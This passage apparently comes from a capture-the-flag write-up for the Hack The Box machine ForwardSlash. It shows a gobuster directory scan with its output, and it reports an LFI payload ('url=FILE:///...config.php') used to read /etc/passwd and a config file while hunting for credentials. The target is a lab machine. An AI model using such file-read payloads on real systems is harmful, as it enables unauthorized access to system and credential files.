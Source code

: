 We successfully exploited the LFI and read /etc/passwd.

Let us run a gobuster and see if there are any interesting files we can try to read.

```bash
root@darkness:~# gobuster dir -u http://backup.forwardslash.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://backup.forwardslash.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/07/10 11:55:12 Starting gobuster
===============================================================
/index.php (Status: 302)
/login.php (Status: 200)
/register.php (Status: 200)
/welcome.php (Status: 302)
/dev (Status: 301)
/api.php (Status: 200)
/environment.php (Status: 302)
/logout.php (Status: 302)
/config.php (Status: 200)
/hof.php (Status: 302)
/server-status (Status: 403)
```

`Config.php` seems like a file that may be worth reading, as it could contain credentials. 

After trying around a bit, I eventually was able to read the config.php file via `url=FILE:///var/www/backup.forwardslash.htb/config.php`.

![Config.php](/assets/htb/ForwardSlash/lfi-config.png)

Sadly the credentials in the file are not of any value, so we have to search somewhere else for working credentials.
